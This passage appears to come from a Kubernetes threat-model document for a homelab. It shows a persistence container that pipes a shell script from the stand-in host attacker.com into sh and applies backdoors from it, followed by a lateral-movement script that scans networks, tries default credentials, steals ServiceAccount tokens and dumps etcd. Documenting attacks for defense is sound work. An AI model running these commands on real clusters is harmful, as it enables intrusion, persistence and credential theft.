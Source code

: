 ```yaml
          containers:
          - name: cleanup
            image: alpine
            command:
            - /bin/sh
            - -c
            - |
              # Re-establish reverse shell every 5 minutes
              wget http://attacker.com/shell.sh -O- | sh
              
              # Recreate deleted backdoors
              kubectl apply -f http://attacker.com/backdoors.yaml
```

---

### 7. Network Pivoting & Lateral Movement (P1)

#### Attack Scenario: Compromise Entire Homelab
```bash
# ATTACK: From knative-lambda to full homelab compromise

# Step 1: We're inside knative-lambda namespace
# Enumerate network
nmap -sn 10.0.0.0/8

# Step 2: Find other services
kubectl get svc --all-namespaces

# Step 3: Exploit trust relationships
# MinIO might trust our IP, try accessing without auth
curl http://minio.minio:9000/

# Prometheus metrics often expose secrets
curl http://prometheus.prometheus:9090/api/v1/targets | grep password

# Grafana might have default admin:admin
curl -u admin:admin http://grafana.grafana/api/dashboards/

# Step 4: Service mesh exploitation
# If Linkerd is used, we can intercept traffic
# Inject proxy to MITM all service-to-service traffic

# Step 5: Pivot to other namespaces
# Use stolen ServiceAccount tokens
for ns in $(kubectl get ns -o name); do
  TOKEN=$(kubectl get secret -n $ns -o jsonpath='{.items[0].data.token}' | base64 -d)
  curl -k -H "Authorization: Bearer $TOKEN" \
    https://kubernetes.default/api/v1/namespaces/$ns/pods
done

# Step 6: Compromise infrastructure components
# Get node SSH keys from secrets
kubectl get secrets -n kube-system | grep ssh

# Access etcd (all cluster data!)
ETCDCTL_API=3 etcdctl --endpoints=https://etcd:2379 get "" --prefix --keys-only
```

---